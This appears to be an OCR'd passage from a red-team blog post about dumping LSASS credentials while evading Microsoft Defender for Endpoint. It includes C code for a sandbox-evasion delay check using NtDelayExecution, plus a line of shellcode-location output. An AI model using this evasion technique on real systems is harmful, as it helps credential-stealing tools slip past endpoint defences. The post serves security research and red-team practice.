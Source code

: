 ![](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/refs/heads/master/_posts/redteaming/Exp_MDE_LSASS_Dump/Images/Pasted%20image%2020230915190703.png)

Even though we have injected in ASR excluded process we find that MDE has detected that it is still malicious.

We add a few more checks to get past MDE:

Timer execution to avoid Sandbox checks:

```
// Converting minutes to milliseconds
	float ftMinutes = 0.1;
	DWORD               dwMilliSeconds = ftMinutes * 60000;
	LARGE_INTEGER       DelayInterval = { 0 };
	LONGLONG            Delay = NULL;
	NTSTATUS            STATUS = NULL;
	DWORD               _T0 = NULL,
		_T1 = NULL;

	// Converting from milliseconds to the 100-nanosecond - negative time interval
	Delay = dwMilliSeconds * 10000;
	DelayInterval.QuadPart = -Delay;

	_T0 = GetTickCount64();

	// Sleeping for 'dwMilliSeconds' ms
	if ((STATUS = ntDelayExecution(FALSE, &DelayInterval)) != 0x00 && STATUS != STATUS_TIMEOUT) {
		printf("[!] NtDelayExecution Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}

	_T1 = GetTickCount64();

	// Slept for at least 'dwMilliSeconds' ms, then 'DelayExecutionVia_NtDE' succeeded, otherwize it failed
	if ((DWORD)(_T1 - _T0) < dwMilliSeconds)
		return FALSE;
```


[+]: Shellcode located at c7160